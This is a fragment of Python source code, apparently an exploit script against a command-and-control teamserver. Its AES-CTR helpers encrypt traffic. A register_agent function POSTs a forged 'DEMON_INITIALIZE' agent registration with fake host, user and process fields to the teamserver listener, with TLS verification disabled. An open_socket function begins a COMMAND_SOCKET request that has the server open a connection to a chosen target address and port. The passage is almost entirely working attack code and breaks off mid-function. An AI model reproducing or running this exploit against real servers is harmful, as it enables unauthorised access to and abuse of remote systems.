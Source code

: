```
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)

    plaintext = aes.decrypt(ciphertext)
    return plaintext


def int_to_bytes(value, length=4, byteorder="big"):
    return value.to_bytes(length, byteorder)


def encrypt(key, iv, plaintext):

    if len(key) <= key_bytes:
        for x in range(len(key),key_bytes):
            key = key + b"0"

        assert len(key) == key_bytes

        iv_int = int(binascii.hexlify(iv), 16)
        ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
        aes = AES.new(key, AES.MODE_CTR, counter=ctr)

        ciphertext = aes.encrypt(plaintext)
        return ciphertext

def register_agent(hostname, username, domain_name, internal_ip, process_name, process_id):
    # DEMON_INITIALIZE / 99
    command = b"\x00\x00\x00\x63"
    request_id = b"\x00\x00\x00\x01"
    demon_id = agent_id

    hostname_length = int_to_bytes(len(hostname))
    username_length = int_to_bytes(len(username))
    domain_name_length = int_to_bytes(len(domain_name))
    internal_ip_length = int_to_bytes(len(internal_ip))
    process_name_length = int_to_bytes(len(process_name) - 6)

    data =  b"\xab" * 100

    header_data = command + request_id + AES_Key + AES_IV + demon_id + hostname_length + hostname + username_length + username + domain_name_length + domain_name + internal_ip_length + internal_ip + process_name_length + process_name + process_id + data

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id

    print("[***] Trying to register agent...")
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")


def open_socket(socket_id, target_address, target_port):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x02"

    # SOCKET_COMMAND_OPEN / 16
```